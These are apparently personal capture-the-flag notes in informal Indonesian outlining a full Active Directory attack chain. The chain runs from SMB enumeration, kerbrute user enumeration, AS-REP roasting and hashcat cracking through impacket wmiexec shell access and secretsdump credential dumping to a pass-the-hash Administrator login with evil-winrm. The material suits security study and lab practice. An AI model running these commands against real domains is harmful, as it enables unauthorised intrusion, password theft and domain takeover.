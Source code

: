 
## scan semua, 445 ada tuh cek2 isinya
### enum smb
- smbclient -L //ip -> next masuk smbclient //ip/dir
- cek yg gada $, masuk aja get semua file
- cat 1 1, ambil semua username nya, bikin tools generate username dari gpt sama baca WU
- next generate wordlist pake tools tadi

### enum username
- next cek nama domain nya di scanning nmap, di ldap tuh, gausah masukin 0. nya
- go install kerbrute aja, next ke /home/go, pindah ke which $SHELL nya, pake aja
- kerbrute userenum -d namadomain --dc ip [wordlist]
- dapet tuh username2 yg ada disitu

### enum AS-REP roastable, vuln user enum, cek yg bisa run tanpa passwd
- impacket-GetNPUsers -no-pass -dc-ip [ip_target] -usersfile [usersvalid.txt] [namadomain]/ 
- usersvalid.txt cukup wordlist polosan aja gausah di @domain.local, jadi kalo john@domain.local, pake john aja
- namadomain cek di scan nmap tadi di ldap
- dah dapet tuh passwd hashnya

### enum passwd skid
- cek code hashmap kerberos, atau as-rep
- 18200 tuh dapet cek aja
- hashcat -m [codenya] [hashnya] /ke/rockyou.txt

### enum: disk smb for user :
- smbmap -u [uname] -p [password] -H [ip] 
- cek aja nanti baru smb kesana
- kelar smb kesana ke yg baru2 noh netlogon misal
- get aja ada catatan reset password, baca aja disitu ada creds, username nya tapi ga kapital
- smbmap lagi pake user yg baru dapet itu, ada tuh ampe admin2

### rce access shell via WMI :
- impacket-wmiexec domain/[uname]:[passwd]@[ip]  

### dump all creds :
- impacket-secretsdump domain/[uname]:[passwd]@[ip]

### get hash passwd :
- kan ada ini
- Administrator:500:xxx:yyy:::
- ambil Administrator sama yyy nya -> admin:hash

### login as admin :
- evil-winrm -i [ip] -u [username ato admin] -h [hashnya] -N

### klaim all flag



